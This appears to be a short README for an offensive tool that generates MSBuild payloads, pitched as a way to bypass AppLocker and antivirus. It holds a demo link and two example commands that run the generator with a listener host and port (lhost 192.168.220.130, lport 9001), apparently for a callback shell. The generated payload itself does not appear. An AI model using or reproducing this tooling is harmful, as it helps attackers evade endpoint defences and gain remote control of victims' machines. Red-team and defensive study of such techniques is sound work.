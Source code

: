 # Msbuild payload generator
Msbuild is a great way to bypass Applockers and AVs, this tool simply automates the payload creation process.

[![asciicast](https://asciinema.org/a/M9QOxb7HPam1P9B1BQUdA3CpL.svg)](https://asciinema.org/a/M9QOxb7HPam1P9B1BQUdA3CpL?speed=2)

# Example 
```
sudo python msbuild_gen.py -a x86 -i 10 --lhost 192.168.220.130 --lport 9001 -m
sudo python msbuild_gen.py -a x64 -i 10 --lhost 192.168.220.130 --lport 9001
```


